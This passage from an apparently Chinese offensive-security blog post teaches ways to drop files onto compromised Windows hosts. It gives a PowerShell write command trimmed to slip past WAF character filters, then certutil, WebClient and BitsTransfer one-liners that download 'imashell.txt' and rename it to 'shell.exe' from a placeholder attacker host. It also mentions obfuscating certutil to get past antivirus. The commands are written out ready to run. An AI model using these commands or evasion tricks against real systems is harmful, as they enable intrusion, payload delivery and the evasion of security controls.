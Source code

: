   
当然我们可以进一步压缩优化成下面这样：  
  
powershell -Command ac output.txt Hello  
  
总之，上述命令最终优化到只用到一个横杠，应该是较优版本了，大部分常见漏洞的payload里都不会出现-，因此应该不会被一些乱七八糟的规则误杀，可以规避掉绝大部分规则对特殊字符的拦截，看看各位powershell大手子能不能捣鼓出连-都不用的方法。  
  
  
  
**5.使用certutil落地文件（出网）**  
  
  
既然写字符我们是从echo这个典中典的命令开始介绍，那落地文件我们也从certutil这个最经典的开始介绍。  
  
Certutil下载文件的常见命令如下：  
  
certutil -urlcache -split -f http://ip/artifact.exe  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrHQyerPIg8b1iaQnGFdpLKKiaFcQJdva2NGT5bdwhbcicicYV9bJTusXuaQ/640?wx_fmt=png&from=appmsg "")  
  
也可以下载回来后重命名：  
  
certutil -urlcache -split -f http://ip/imashell.txt   
shell.exe  //标红的为重命名后文件名  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrG24EnWf73iarf7OUwWsXToN4KUZddoVTdVOKaOCL8DbwSF34ZOtxy9Q/640?wx_fmt=png&from=appmsg "")  
  
当然，围绕certutil实际上展开了非常多攻防对抗，在目标主机但凡有个正常杀软的情况下，直接运行上述命令去落地几乎不可能成功，因此需要对上述落地语句进行各种变形，例如插入各种特殊字符混淆语句，再比如把certutil复制到别的文件夹并重命名等等，由于本文并不研究certutil绕过杀软，因此这里不展开了，感兴趣的读者进一步搜索相关资料即可。  
  
  
  
  
**6.使用Powershell+System.Net.WebClient落地文件 （出网）**  
  
  
我们强大的powers  
hell也是支持从远端下载文件的，并且方法还不少。最经典的莫过于使用System.Net.WebClient去落地文件：  
  
   
  
powershell (new-object System.Net.WebClient).DownloadFile('http://ip/imashell.txt',  
'shell.txt')  
  
//标红的即为重命名后的文件名  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrjNHmnGZ9N86gQbfb17GZ10PoSr4q9luQmAo5icVSNicvHBWcBzibjI8Ww/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**7.使用Powershell+BitsTransfer落地文件 （出网）**  
  
  
  
  
不多说了，直接给命令吧：  
  
powershell.exe -Command "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://ip/imashell.txt' -Destination './shell.txt'"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrYXBvnkFh9tKRNgeAfGaqCDxjvJIe2XCuIOqE4oDHW1GnlOjbT87rpQ/640?wx_fmt=png&from=appmsg "")  
  
  
  